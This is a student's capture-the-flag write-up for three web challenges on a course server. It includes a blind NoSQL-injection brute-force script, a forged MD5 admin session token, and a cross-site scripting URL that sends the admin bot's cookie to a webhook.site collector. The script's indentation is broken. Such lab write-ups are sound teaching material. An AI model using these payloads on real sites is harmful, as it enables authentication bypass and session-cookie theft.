 ```yaml
---
tags:
  - offsec
---
```

_by Vaughn Valle_

### NoSQL-1 
Visiting the page gives us a login form. When we try random inputs, we get an "Invalid credentials" error.
![[Pasted image 20241210171357.png]]
Since we went over NoSQL and query comparisons in class, let's try that here using `curl`
![[Pasted image 20241210171858.png]]
We successfully bypassed authentication by using the `ne` query operator. Here, we're selecting accounts that have a non-empty password. Thus, we're able to login.

However, the `message` field says that the password of the authenticated account is the flag. Unfortunately, the HTTP response does not give us the record, but merely the status response based on the POST request. This makes this a Blind NoSQLi type of challenge

But remember that with the `regex` operator, we can parse through possible characters for the first letter of the password and work from there. Once we find a match for the first one, we can store that and move on to the next. We can construct the ff. python solver to do just that
```python
import requests
import string

url="http://offsec-chalbroker.osiris.cyber.nyu.edu:10000/"
headers={'content-type': 'application/json', 'cookie': 'CHALBROKER_USER_ID=vqv9731'}

leaked_data = list("flag{")

    for c in string.printable:
        if c not in ['*','+','.','?','|','"']:
            print(f"Trying {''.join(leaked_data) + c}")
            payload='{"username": {"$ne": ""}, "password": {"$regex": "^%s" }}' % ("".join(leaked_data) + c)
            print (payload)
            r = requests.post(url + "api/login", data = payload, headers = headers, verify = False, allow_redirects = False)
            print(r.status_code)
            if 'Yay' in r.text:
                leaked_data.append(c)
```

Note that since we know the flag format, we can append `flag{` to `leaked_data` to save on brute-forcing time. Now we just have to run this script to decipher each letter of the flag and submit!
### Nuclear
When we visit the site, we're greeted by this
![[Pasted image 20241210172707.png]]
Let's try do register using dummy values
![[Pasted image 20241210172744.png]]
And then login using the credentials
![[Pasted image 20241210172812.png]]
![[Pasted image 20241210174216.png]]
Okay so now we have logged into our account. However, I don't see the flag anywhere. If this was similar to the previous challenge, then we need to get into the admin account to get the flag.
After some countless inspection, I decided to look into the document cookies under the Application tab
![[Pasted image 20241210174507.png]]
Interestingly, aside from `CHALBROKER_USER_ID` and the other `__*` cookies, we see a `session` and `token`. I apologize for doing this, but I had to use ChatGPT to figure out what this value meant.
![[Pasted image 20241210174432.png]]
Apparently it is an MD5 HASH that says "hello". What if we set it as `admin` but as an MD5 hash (`21232f297a57a5a743894a0e4a801fc3`)?
![[Pasted image 20241210174713.png]]
We get the flag.

### XSS-1
This challenge is interesting because we have 2 endpoints to exploit: and admin bot and a website.
![[Pasted image 20241210174810.png]]
![[Pasted image 20241210174819.png]]

The site says to get the admin cookie. We know that the admin bot website says that it will visit the url we give it. Thus, is the main website is XSS vulnerable, we can give it javascript code to throw the admin cookie to a middleman/URL endpoint and "get the flag".

Let's test the main website for XSS
`https://offsec-chalbroker.osiris.cyber.nyu.edu:10003/greet?name=%3Cscript%3Ealert(document.cookie)%3C/script%3E`
![[Pasted image 20241210175050.png]]
It is! We can get the website to execute arbitrary JS code and display the current session's cookies. We just have to find a way for the admin bot to visit this URL and expose the cookies through our "middleman". For this we'll use https://webhook.site

Here we have a site URL to act as the middleman: https://webhook.site/94d17262-1ba1-4530-b5d3-a0ba98730626](https://webhook.site/94d17262-1ba1-4530-b5d3-a0ba98730626?cookie=flag=flag{S33_XSS_1snt_s0_h4rd_1s_1t?_e1025dd7f286adc2})|

Once we integrate the middleman URL into the JS payload, we can view the admin cookie from webhook using:
http://offsec-chalbroker.osiris.cyber.nyu.edu:10003/greet?name=%3Cscript%3Ewindow.location.href=%22https://webhook.site/94d17262-1ba1-4530-b5d3-a0ba98730626?cookies=%22%2bdocument.cookie%3C/script%3E
![[Pasted image 20241210173924.png]]
Now we can look at webhook and see the flag in the `cookie` parameter